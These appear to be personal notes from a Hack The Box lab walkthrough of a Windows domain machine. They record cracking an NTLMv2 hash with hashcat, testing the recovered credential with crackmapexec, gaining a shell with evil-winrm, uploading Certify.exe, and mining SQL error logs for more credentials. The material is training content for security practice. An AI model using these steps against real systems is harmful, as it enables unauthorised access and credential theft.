 this is an #ntlmv2 hash

Hashcat should auto detect the mode. 

![[Pasted image 20241216211513.png]]
Using rockyou.txt wordlist 

It crackedddd. 

![[Pasted image 20241216211559.png]]
Try logging in with the creds `sql_svc:REGGIE1234ronnie`

Using #crackmapexec try connecting to #smb & #winrm

Connection to winrm worked. 

`cme smb 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'`
![[Pasted image 20241217181512.png]]
`cme winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'`

Install #evilwinrm 

Gain initial access with #evilwinrm 

`evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie`

![[Pasted image 20241217184725.png]]
Remember this has a certificate authority...

cd into program data and drop `Certify.exe` there from #SharpCollection #sharphound 

using winrm.

`cp Certify.exe ~/htb/escape`

`upload Certify.exe`

![[Pasted image 20241217185139.png]]
`Certify.exe` has a `find /vulnerable` flag so let's run that..

`.\certify.exe find /vulnerable`

![[Pasted image 20241217185333.png]]
No vulnerable cert templates found 

![[Pasted image 20241217185426.png]]
Next move...check sql error logs

`cd SQLServer\Logs`

`type ERRORLOG.BAK`

Gain some new user credentials from looking at failed login attempts. 

![[Pasted image 20241217190030.png]]
Going back to #crackmapexec to test out these creds.
